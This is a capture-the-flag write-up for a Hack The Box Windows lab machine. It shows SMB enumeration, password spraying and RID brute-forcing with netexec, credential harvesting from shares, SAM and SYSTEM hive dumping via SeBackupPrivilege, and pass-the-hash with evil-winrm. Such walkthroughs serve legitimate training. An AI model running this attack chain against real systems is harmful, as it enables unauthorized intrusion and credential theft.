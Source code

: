 
[[HTB]] : [[Machines]]

**IP:** 10.10.11.35  
**Date:** 08/01/2025

---

### **Enumeration**

#### **Nmap Scan Results**

- **OS:** Windows Server 2022
- **Open Ports:**
    - LDAP
    - Kerberos

#### **Nessus Scan Results**

- SMB service detected.

---

### **SMB Enumeration**

#### **Accessing SMB Shares**

- Discovered `HR` share accessible without a password.
- Found a notice with a default password:
    
    ```
    Welcome to Cicada Corp! We're thrilled to have you join our team.
    As part of our security protocols, it's essential that you change your default password to something unique and secure.
    
    Your default password is: Cicada$M6Corpb*@Lp#nZp!8
    ```
    

---

### **Initial Access Attempt**

#### **Testing SMB**

- Tested access using `netexec`:
    
    ```bash
    netexec smb 10.10.11.35
    ```
    

#### **Bruteforcing Usernames with Default Password**

- Attempted to brute-force common usernames with the found password:
    
    ```bash
    netexec smb 10.10.11.35 -u /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    
- Only guest access was obtained.

#### **RID Brute-forcing**

Used RID brute-forcing to enumerate valid users:

```bash
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

**Results:**

```plaintext
CICADA\Administrator (SidTypeUser)  
CICADA\Guest (SidTypeUser)  
CICADA\john.smoulder (SidTypeUser)  
CICADA\sarah.dantelia (SidTypeUser)  
CICADA\michael.wrightson (SidTypeUser)  
CICADA\david.orelious (SidTypeUser)  
CICADA\emily.oscars (SidTypeUser)  
```

---

### **Exploitation**

#### **Bruteforcing Valid Users**

- Stored the usernames in a `users.txt` file:
    
    ```plaintext
    Administrator  
    Guest  
    john.smoulder  
    sarah.dantelia  
    michael.wrightson  
    david.orelious  
    emily.oscars  
    ```
    
- Used the default password to brute-force the valid users:
    
    ```bash
    netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    

**Result:**  
`michael.wrightson` did not change his password.

#### **Enumerating Additional Users**

- Using `michael.wrightson`'s credentials:
    
    ```bash
    netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
    ```
    

**Result:**  
Discovered `david.orelious` and his password:

```plaintext
Password: aRt$Lp#7t*VQ!3
```

#### **Accessing SMB Shares**

Using `david.orelious`'s credentials to enumerate shares:

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

- Found the `DEV` share containing a **Backup Script** with `emily.oscars`' credentials:
    
    ```plaintext
    $username = "emily.oscars"
    $password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
    ```
    

#### **High-Privilege User: Emily Oscars**

- Checked `emily.oscars`' privileges:
    
    ```bash
    smbmap -H 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
    ```
    
- Verified access to `ADMIN$`.

---

### **Privilege Escalation**

#### **Gaining Reverse Shell**

Using `evil-winrm` to gain a reverse shell:

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

- **User Flag:**
    
    ```plaintext
    fd9eccbf79f5ca488f8f3bda29072e3a
    ```
    

#### **Checking Privileges**

Executed `whoami /priv`:

```plaintext
SeBackupPrivilege             Back up files and directories  Enabled  
SeRestorePrivilege            Restore files and directories  Enabled  
```

**Exploitation:**  
`SeBackupPrivilege` allows reading sensitive files.

---

### **Dumping SAM & SYSTEM Files**

#### **Steps:**

1. Navigate to the C drive and create a temporary folder:
    
    ```bash
    mkdir Temp
    ```
    
2. Save the SAM and SYSTEM files:
    
    ```bash
    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system
    ```
    
3. Download the files using `evil-winrm`:
    
    ```bash
    download sam
    download system
    ```
    

---

### **Extracting Hashes**

Used `pypykatz` to extract user hashes:

```bash
pypykatz registry --sam sam system
```

**Results:**

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```

---

### **Root Access**

Used the NTLM hash to gain access as `Administrator`:

```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

- **Root Flag:**
    
    ```plaintext
    d3d5f0aba09f6a5e7e52e9dfc57e3490
    ```
    

---

### **Summary:**

1. **Enumeration:** Discovered SMB shares and default credentials.
2. **Exploitation:** Used `netexec` and SMB enumeration to find valid credentials.
3. **Privilege Escalation:** Leveraged `SeBackupPrivilege` to dump sensitive files and extract hashes.
4. **Root Access:** Used NTLM hash to access the system as `Administrator`.
